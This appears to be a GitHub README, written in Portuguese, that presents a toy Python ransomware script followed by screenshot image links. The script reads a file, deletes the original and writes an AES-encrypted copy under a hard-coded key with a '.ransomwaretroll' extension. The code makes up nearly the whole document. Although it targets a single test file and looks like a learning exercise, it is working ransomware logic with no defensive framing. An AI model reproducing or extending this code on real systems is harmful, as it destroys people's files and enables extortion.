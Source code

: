 import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

<img width="1440" alt="Captura de Tela 2025-06-13 às 23 12 28" src="https://github.com/user-attachments/assets/9a6807ae-10cd-413d-af2d-e2e589f775b3" />


<img width="1440" alt="encriptografado" src="https://github.com/user-attachments/assets/33ea48d2-edc0-45c1-afcd-9dde9e43ae31" />

<img width="1440" alt="Descriptografado" src="https://github.com/user-attachments/assets/b82dce09-e9e7-49c2-ba96-4115c6348ff7" />

<img width="1440" alt="arquivo aberto" src="https://github.com/user-attachments/assets/7b1c2a30-1f5c-4c15-8452-17db97739350" />


